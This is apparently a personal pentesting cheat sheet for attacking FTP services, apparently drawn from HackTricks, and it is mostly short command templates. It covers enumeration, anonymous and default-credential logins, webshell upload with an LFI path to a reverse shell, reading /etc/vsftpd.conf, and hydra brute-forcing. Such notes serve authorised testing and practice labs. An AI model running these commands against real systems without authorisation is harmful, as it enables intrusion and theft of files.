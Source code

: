 https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp

### Initial checks

Nmap enumeration:
```bash
nmap --script ftp* -p21 <ip>
```

Check for anonymous login: (different users may have different files)
```bash
ftp anonymous@<IP>
```

**Try `ls -al` to check for hidden files and folders!**

| FTP trick                               | command                             |
| --------------------------------------- | ----------------------------------- |
| Passive mode                            | `passive`, `ls`                     |
| Recursively list files                  | `recurse`, `ls`                     |
| Alternate credentials                   | `ftp:ftp`, `admin:admin`            |
| Transfer binaries                       | `binary`                            |
| Get files recursively                   | `wget -r ftp://<USER>:<PASS>@<IP>/` |
| Try username & machine name as password | e.g. `kiero:kiero`                  |

Banner grabbing:
```bash
nc -vn <IP> 21
```

Check for vulnerabilities:
```bash
searchsploit ftp
```

### Files

Run exiftool to determine possible authors (usernames) and or software on the system.
```bash
exiftool -a <file>
```

### Write permissions

Upload binary or webshell:
```bash
ftp> binary
ftp> put <file>
```
>[!Used for]
>- Executing a reverse shell in the browser
>- LFI? Check config file for document root: `/etc/vsftpd.conf`, use this to execute a revshell
>	- `<URL>?LFI=../../../<PATH>/rev.php`

Upload files and use them for other exploits like redis-rce:
- [[Sybaris]]

### Bruteforce

Bruteforce FTP:
- **Check out SecLists for usernames!**
```bash
hydra -L users -P passwords ftp://<IP> -s 21

hydra -C /opt/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <IP> ftp
```
